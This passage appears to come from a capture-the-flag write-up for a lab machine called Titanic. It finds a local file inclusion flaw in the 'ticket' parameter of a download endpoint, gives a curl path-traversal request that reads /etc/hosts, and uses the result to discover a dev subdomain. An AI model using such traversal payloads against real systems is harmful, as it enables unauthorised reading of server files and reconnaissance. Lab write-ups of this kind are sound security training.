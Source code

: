 &#x20;The result of the page depends on the file declared in the URL variable called "ticket".

Try to do LFI web vulnerability in the variable "ticket"

<figure><img src="../../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>

We have found LFI vulnerability in the website.

Try to read `/etc/hosts` file to discover other subdomain.

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../../../etc/hosts'

127.0.0.1 localhost titanic.htb dev.titanic.htb
```

Add the subdomain `dev.titanic.htb` to our local hosts file and search it in the browser

<figure><img src="../../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>
